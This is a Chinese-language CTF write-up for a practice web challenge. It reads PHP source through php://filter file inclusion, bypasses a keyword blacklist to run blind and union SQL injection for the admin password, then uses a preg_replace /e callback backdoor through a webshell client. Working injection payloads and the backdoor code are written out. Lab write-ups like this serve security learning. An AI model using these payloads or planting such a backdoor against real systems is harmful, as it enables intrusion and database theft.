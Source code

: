 ```yaml
---
title: 南邮CTF平台综合题2writeup
date: 2017-10-04 21:04:34
description: 通过SQL注入得到后台登陆密码，连接管理员自用的回调后门。
---
```


> 非xss题 但是欢迎留言~
> 地址：[get the flag](http://cms.nuptzj.cn/)

## 读取源码

在页面底部发现一个这样的链接：*http://cms.nuptzj.cn/about.php?file=sm.txt* ，说明题目提供了读取文件功能，如果使用 *[file://协议](http://php.net/manual/en/wrappers.file.php)* 读取，HTML预留字符会以字符实体显示，看起来不方便，所以也可以编码读取后再本地解码。

```php
http://cms.nuptzj.cn/about.php?file=php://filter/convert.base64-encode/resource=filename
在拿到的文件里搜索 ".php" ，顺藤摸瓜，能找到并读取到的文件有：
  sm.txt
  about.php
  index.php
  passencode.php
  say.php
  antixss.php
  so.php
  preview.php
  antiinject.php
  -----------------------------
  知道有 loginxlcteam目录或文件 和 config.php 但还读不到 ；还不知道有list.php ,xlcteam.php
```

### 关于*file://协议*

 *file://协议* ([RFC8089](https://tools.ietf.org/html/rfc8089) )是用来访问本地文件系统的，因为文件系统 是 PHP 使用的默认封装协议，因此在fopen()、 copy()、 file_exists() 、 file_get_contents()和 filesize() 等文件系统函数中是支持的。

在谷歌/火狐浏览器的URL框里输入  *file:///D:/*  或者在Linux命令行里敲 *lynx file:///* 都可以看到效果。

[PHP文档](http://php.net/manual/en/wrappers.file.php#refsect1-wrappers.file-usage) 提供的用法如下：

> - /path/to/file.ext
> - relative/path/to/file.ext
> - fileInCwd.ext
> - C:/path/to/winfile.ext
> - C:\path\to\winfile.ext
> - \\smbserver\share\path\to\winfile.ext
> - file:///path/to/file.ext

### 关于PHP的过滤器(*php://filter*)

 [php://filter](http://php.net/manual/en/wrappers.php.php#wrappers.php.filter) 和 [可用的过滤器列表](http://php.net/manual/en/filters.php)。主要用在数据流内容读取之前做些筛选过滤，可指定过滤器应用在读模式还是写模式，不指定则两者都应用，也可复合使用多个过滤器，使用管道符隔开即可。

对于CTFer典型的用法像是这样：

> php://filter/read= < filter list to apply to read chain >/resource= < stream to be filtered >
>
> php://filter/read=string.toupper|string.rot13/resource=https://findneo.github.io/
>
> php://filter/convert.base64-encode/resource=filename

常用过滤器列表：

* String Filters
  * string.rot13
  * string.toupper
  * string.tolower
  * string.strip_tags
* Conversion Filters
  * convert.base64-encode & convert.base64-decode
  * convert.quoted-printable-encode & convert.quoted-printable-decode
* Compression Filters
* Encryption Filters

## 注入

全局搜索 *mysql_query* ，发现 *say.php,so.php,index.php* 都存在数据库操作。选择 *so.php* 下手。

```php
/*so.php*/
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
    exit();
}
$id=$_POST['soid'];
include 'config.php';
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id);
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
$rs=mysql_fetch_array($result);
echo htmlspecialchars($rs['nice']).':<br />&nbsp;&nbsp;&nbsp;&nbsp;'.antixss($rs['say']).'<br />';
mysql_free_result($result);
mysql_free_result($file);
mysql_close($con);
?>
---------------------------------------------------------------------------------------
/*antiinject.php*/
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

 关注 3、11、14、15行。

1. burp抓包，修改 *User-Agent* 字段即可。

2.  *antiinject()* 过滤规则是按黑名单***依次***把关键字删除。

   1. 用黑名单里最后一个关键字 `=` 分隔即可绕过对多字符关键字的过滤。
   2. 用 `/**/` 代替空格符。
   3. 单字符关键字不太会弄，也许可以用各种编码绕过，不过我们暂时未必需要，有空格和这些多字符关键字，再加上不在黑名单里的 `<>/()` 已经可以开始搞事了。

3.  *mysql_real_escape_string()* 的功能是对`\x00, \n, \r, \, ', " , \x1a(撤销键,ctrl+z)` 加反斜杠转义，我们不用这些字符就是了。

4. 15行处将处理过的参数直接拼接到查询语句，因为查询结果有多列，又没有逗号可用，不好用内联注入，于是尝试基于逻辑的注入。数据库结构在 *sm.txt* 已经给出。

5.  ```sql
   我们想要在数据库执行的查询语句是这样：
   SELECT * FROM `message` WHERE display=1 AND id=1 and ascii(mid((select userpass from admin)from 1 for 1))>65

   因为没法用空格，所以实际上是这样：
   SELECT * FROM `message` WHERE display=1 AND id=   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   希望经过过滤的 id 值为：
   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   向 so.php post过去的参数应该是：
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/1/**/fo=r/**/1))>65

   使用burp爆破
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/§1§/**/fo=r/**/1))>§65§
   使用 Cluster Bomb 模式，第一个payload 为 [1-40] ，第二个为 [31,32,47-57](经过几次尝试发现usepass字段只有[ \d] )
   得到[49,48,50,32,49,49,55,32,57,57,32,49,48,55,32,49,49,52,32,48,49,55,32,49,49,48,32,49,49,54,32,49,49,55]
   也就是[102 ,117 ,99 ,107 ,114 ,117 ,110 ,116 ,117]即funckruntu，访问loginxlcteam登陆即可

   进后台得知有管理员留的后门 xlcteam.php ，于是读一下这个文件
   ```

## 意外

看别人的writeup时惊喜的发现原来并没有过滤逗号，这意味着可以一次注出来管理员密码！所以深夜里我是有些激动的。

```
soid=1/**/an=d/**/0/**/unio=n/**/selec=t/**/null,usernam=e,userpas=s,null/**/fro=m/**/admi=n

//当然，在充分掌握数据库结构前需要一些尝试。
```

## 使用回调后门

回调后门似乎是 phithon 师傅最先这样称呼的，在 [*创造tips的秘籍——PHP回调后门* ](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)里做了具体介绍。

```php
//xlcteam.php
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>
  //使用菜刀连接即可。
  //url : http://cms.nuptzj.cn/xlcteam.php?www=preg_replace
  //密码:	wtf
```

菜刀连上后拿到所有文件，发现 config.php 里有数据库配置，于是就可以操作整个数据库了。

是的，中午吃的是美味的黄焖鸡 \o/



![](cmsnupt.png)

![](arlogined.png)